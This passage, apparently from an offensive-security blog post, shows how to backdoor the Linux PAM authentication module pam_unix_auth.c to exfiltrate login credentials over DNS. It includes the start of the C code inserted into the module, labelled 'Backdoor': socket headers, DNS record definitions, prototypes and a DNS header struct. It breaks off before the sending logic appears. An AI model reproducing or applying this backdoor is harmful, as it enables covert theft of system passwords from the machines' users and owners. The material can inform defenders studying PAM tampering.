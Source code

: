 So looks fine to inject our exfiltration logic at this point. As PoC, we can use [this snippet of code (Silver Moon - 29/4/2009)](https://gist.github.com/fffaraz/9d9170b57791c28ccda9255b48315168), so the main exfiltration logic is implemented yet (this code has some bugs -for example it does not take the server IP from resolv.conf-... so if you are going to use it in a real pentest, reimplement the code ;D). Lets vim the pam_unix_auth.c file to add the functions and headers needed!:

```c
/* Fun starts here :)

 * pam_sm_authenticate() performs UNIX/shadow authentication
 *
 *      First, if shadow support is available, attempt to perform
 *      authentication using shadow passwords. If shadow is not
 *      available, or user does not have a shadow password, fallback
 *      onto a normal UNIX authentication
 */
/* Backdoor  - DNS code extracted from https://gist.github.com/fffaraz/9d9170b57791c28ccda9255b48315168 */


// The code sucks a lot. It is Sunday and I have a hangover, so I am not in the mood to fix it. 
// Tons of bug and useless code that you should remove. Forgive me, please :)

#include <sys/socket.h>
#include <arpa/inet.h>
#include <netinet/in.h>

//List of DNS Servers registered on the system
char dns_servers[10][100];
int dns_server_count = 0;
//Types of DNS resource records :)
 
#define T_A 1 //Ipv4 address
#define T_NS 2 //Nameserver
#define T_CNAME 5 // canonical name
#define T_SOA 6 /* start of authority zone */
#define T_PTR 12 /* domain name pointer */
#define T_MX 15 //Mail server
 
//Function Prototypes
void ngethostbyname (unsigned char* , int);
void ChangetoDnsNameFormat (unsigned char*,unsigned char*);
unsigned char* ReadName (unsigned char*,unsigned char*,int*);
void get_dns_servers();
 
//DNS header structure
struct DNS_HEADER
{
    unsigned short id; // identification number
 
    unsigned char rd :1; // recursion desired
    unsigned char tc :1; // truncated message
    unsigned char aa :1; // authoritive answer
    unsigned char opcode :4; // purpose of message
    unsigned char qr :1; // query/response flag
 
    unsigned char rcode :4; // response code
    unsigned char cd :1; // checking disabled
    unsigned char ad :1; // authenticated data
    unsigned char z :1; // its z! reserved
    unsigned char ra :1; // recursion available
 
    unsigned short q_count; // number of question entries
    unsigned short ans_count; // number of answer entries
```